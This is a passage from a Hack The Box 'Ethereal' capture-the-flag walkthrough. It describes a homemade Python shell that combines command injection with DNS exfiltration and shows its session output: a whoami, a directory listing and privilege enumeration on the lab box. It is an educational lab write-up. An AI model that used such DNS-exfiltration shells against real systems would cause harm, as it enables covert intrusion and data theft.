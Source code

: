 Now I have a C2 method.

### Shell

I wrote a shell in python that will take advage of this command injection and DNS exfil to give interaction with the system. I’ll detail that process in a [separate post](/2019/03/09/htb-ethereal-shell.html) (linked here and also at the bottom of the table of contents on the left). [m0noc](https://www.hackthebox.eu/home/users/profile/4365) made an excellent and quite thorough [video on DNS exfil](https://www.youtube.com/watch?v=Egwp5zc5ZIM) that was based on this box that is also worth watching.

The TL;DR on my shell is that I can use the injection and DNS exfil discovered above to get a pretty solid (albeit very slow) shell. It loses white space and any line with a word ending in `..`, and it drops the character `/`. But it’s enough to do some initial enumeration to find a better access:

```

root@kali# ./ethereal_shell.py
[*] Starting DNS Sniffer on tun0 for target 10.10.10.106.
[*] Logging in and fetching state information.
[+] State information received.
ethereal> whoami
etherealalan

ethereal> dir \
Volume in drive C has no label.
Volume Serial Number is FAD9-1FD5
Directory of c:
07/07/2018 09:57 PM <DIR> Audit
06/30/2018 10:10 PM <DIR> inetpub
06/26/2018 05:51 AM <DIR> Program Files
07/16/2018 08:55 PM <DIR> Program Files (x86)
07/05/2018 09:38 AM <DIR> Users
07/01/2018 09:57 PM <DIR> Windows
0 File(s) 0 bytes
6 Dir(s) 15,409,475,584 bytes free

ethereal> whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ========================================= ========
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeImpersonatePrivilege Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

```

## Better Shell as Alan

### Enumeration - Programs
